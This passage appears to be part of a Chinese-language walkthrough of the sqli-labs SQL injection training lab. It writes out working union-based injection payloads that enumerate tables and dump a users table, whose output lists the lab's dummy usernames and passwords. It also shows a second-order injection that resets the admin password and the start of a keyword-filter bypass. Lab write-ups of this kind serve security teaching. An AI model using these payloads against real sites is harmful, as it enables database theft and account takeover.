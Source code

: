 ?id=1' or 1 --+

?id=1' and 1=1 --+

?id=1' and 1=2 # 都显示报错信息，应该是过滤了注释符

?id=33' union select 1,2,3' 返回2，3

?id=21' union select 1,database(),3 and '

返回数据库名security

?id=99' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' '

返回：emails,referers,uagents,users

?id=99' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users' '

返回：id,username,password

?id=99' union select 1,group_concat(concat_ws(':',username,password)),3 from users where '1' = '1

返回：Dumb:Dumb,Angelina:I-kill-you,Dummy:p@ssword,secure:crappy,stupid:stupidity,superman:genious,batman:mob!le,admin:admin,admin1:admin1,admin2:admin2,admin3:admin3,dhakkan:dumbo,admin4:admin4

## Less-24

**二次注入**

先创建一个新的用户和密码，admin'#/123456，使用这个用户登录后，输入admin/111/111更改密码，修改成功，之后使用admin/111登录成功，夺取了用户admin

原理：

`$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";`

当输入admin'#时：

`$sql = "UPDATE users SET PASSWORD='$pass' where username='admin'#' and password='$curr_pass' ";`

sql语句就变成了：

`$sql = "UPDATE users SET PASSWORD='$pass' where username='admin'#`

此时，我们并不需要原密码进行验证，并且直接修改了其他用户的密码。这就是所谓的 **二次注入**，这种注入发生在用户提交的值被存储在数据库中，这个值可能被转义过。当这个值被其他模块调用时，会使用而不转义的原来的数据，如果这个数据是恶意注入，在不转义的情况下就会生效。

## Less-25

**过滤or、and-双写注入**

这一关过滤了or和and

?id=1'

**Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **D:\CTF-Tools\phpstudy_pro\WWW\sqli-labs\Less-25\index.php**on line **37**  
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
